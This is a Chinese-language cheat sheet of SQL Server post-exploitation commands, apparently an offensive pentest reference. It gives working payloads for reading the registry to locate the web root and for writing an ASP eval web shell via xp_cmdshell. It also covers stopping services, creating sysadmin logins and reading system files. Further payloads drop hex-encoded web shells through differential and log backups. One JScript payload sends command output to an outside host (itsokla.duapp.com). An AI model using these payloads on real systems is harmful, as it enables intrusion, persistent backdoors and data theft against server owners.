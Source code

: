 	#读注册表
	create table labeng(lala nvarchar(255), id int);
	DECLARE @result varchar(255) EXEC master.dbo.xp_regread 'HKEY_LOCAL_MACHINE',  
	'SYSTEM\ControlSet001\Services\W3SVC\Parameters\Virtual Roots','/',  
	@result output insert into labeng(lala) values(@result); #读网站目录

	#写shell
	exec master.dbo.xp_cmdshell 'echo ^<%eval request("o")%^> >E:\wwwroot\1.asp'; --

	#停掉或激活某个服务
	exec master..xp_servicecontrol 'stop','schedule'
	exec master..xp_servicecontrol 'start','schedule'

	#添加、删除、设置用户为DBA的操作
	EXEC sp_addlogin 'user', 'pass';
	EXEC sp_droplogin 'user';
	EXEC master.dbo.sp_addsrvrolemember 'user', 'sysadmin';

	#获取DB文件位置信息
	EXEC sp_helpdb master; -- master.mdf位置
	


**文件读写**

	#文件读取 (创建临时表，bulk insert读取内容到表)
	CREATE TABLE mydata (line varchar(8000));
	BULK INSERT mydata FROM 'c:\boot.ini';
	DROP TABLE mydata;

	#文件读取 (创建临时表，insert & xp_cmdshell读取内容)
	create table mytmp(data varchar(4000)); --
	insert mytmp exec master.dbo.xp_cmdshell 'ipconfig /all'; --

	#页面无回显时，读取命令执行内容 (需目标机器可连外网) (先写入JS，然后通过执行JS将命令执行内容，通过ajax发送给接收端)
	exec master.dbo.xp_cmdshell 'echo (function(){var ws=new ActiveXObject("WScript.shell"),  
	cmd="cmd.exe /c dir c:\\";var data=ws.exec(cmd).stdout.ReadAll();  
	var ajax=new ActiveXObject("Microsoft.xmlhttp");  
	ajax.open("POST","http://itsokla.duapp.com/cmd.php",false);  
	ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");  
	ajax.send("cmd="+encodeURIComponent(cmd)+"&data="+encodeURIComponent(encodeURIComponent(data)));})() > c:\e.js' --

**差异备份**

	#差异备份
	1. 将数据库备份一次,路径随便
	backup database 库名 to disk = 'c:\xxxxx.bak';--
	2. 创建临时表，并写入shell内容
	create table [dbo].[dtest] ([cmd] [image]);
	insert into dtest(cmd) values(0x3C25657865637574652872657175657374282261222929253E);--
	3. 差异备份，将新增内容，备份至SHELL
	backup database 库名 to disk='目标位置\d.asp' WITH DIFFERENTIAL,FORMAT;--
	
	#log备份
	1. 设置数据库恢复模式为FULL
	alter database 当前库名 set RECOVERY FULL--
	2. 创建临时表
	create table cmd (a image)--
	3. 备份日志一次
	backup log 当前库名 to disk = 'f:\cmd' with init--
	4. 在表内插入shell内容
	insert into cmd (a) values (0x3C25657865637574652872657175657374282261222929253EDA)--
	5. 再次备份日志
	backup log 当前库名 to disk = '备份路径'--
	6. 删除临时表
	drop table cmd--
	7. 改变数据库恢复模式为SIMPLE
	alter database 当前库名 set RECOVERY SIMPLE--
